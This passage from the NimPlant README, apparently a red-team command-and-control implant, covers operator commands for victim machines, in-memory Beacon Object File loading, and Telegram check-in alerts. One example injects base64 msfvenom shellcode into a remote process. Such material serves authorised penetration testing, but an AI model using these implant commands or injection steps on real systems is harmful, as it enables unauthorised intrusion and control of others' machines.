 ```
sleep             [sleeptime] <jitter%> Change the sleep time of the current NimPlant.
upload            (GUI) [localfilepath] <remotefilepath> Upload a file from the NimPlant server to the victim machine.
wget              [url] <remotefilepath> Download a file to disk remotely.
whoami            Get the user ID that NimPlant is running as.
```
#### Using Beacon Object Files (BOFs)

**NOTE: BOFs are volatile by nature, and running a faulty BOF or passing wrong arguments or types WILL crash your NimPlant session! Make sure to test BOFs before deploying!**

NimPlant supports the in-memory loading of BOFs thanks to the great [NiCOFF project](https://github.com/frkngksl/NiCOFF). Running a bof requires a local compiled BOF object file (usually called something like `bofname.x64.o`), an entrypoint (commonly `go`), and a list of arguments with their respective argument types. Arguments are passed as a space-seperated `arg argtype` pair. 

Argument are given in accordance with the "Zzsib" format, so can be either `string` (alias: `z`), `wstring` (or `Z`), `integer` (aliases: `int` or `i`), `short` (`s`), or `binary` (`bin` or `b`). Binary arguments can be a raw binary string or base64-encoded, the latter is recommended to avoid bad characters.

Some examples of usage (using the magnificent TrustedSec BOFs [[1](https://github.com/trustedsec/CS-Situational-Awareness-BOF), [2](https://github.com/trustedsec/CS-Remote-OPs-BOF)] as an example) are given below. Note that `inline-execute` (without arguments) can be used to configure the command graphically in the GUI.

```bash
# Run a bof without arguments
inline-execute ipconfig.x64.o go

# Run the `dir` bof with one wide-string argument specifying the path to list, quoting optional
inline-execute dir.x64.o go "C:\Users\victimuser\desktop" Z

# Run an injection BOF specifying an integer for the process ID and base64-encoded shellcode as bytes
# Example shellcode generated with the command: msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f base64
inline-execute /linux/path/to/createremotethread.x64.o go 1337 i /EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA b

# Depending on the BOF, sometimes argument parsing is a bit different using NiCOFF
# Make sure arguments are passed as expected by the BOF (can usually be retrieved from .CNA or BOF source)
# An example:
inline-execute enum_filter_driver.x64.o go            # CRASHES - default null handling does not work
inline-execute enum_filter_driver.x64.o go "" z       # OK      - arguments are passed as expected
```

#### Push Notifications
By default, NimPlant support push notifications via the `notify_user()` hook defined in `server/util/notify.py`. By default, it implements a simple Telegram notification which requires the `TELEGRAM_CHAT_ID` and `TELEGRAM_BOT_TOKEN` environment variables to be set before it will fire. Of course, the code can be easily extended with one's own push notification functionality. The `notify_user()` hook is called when a new NimPlant checks in, and receives an object with NimPlant details, which can then be pushed as desired.
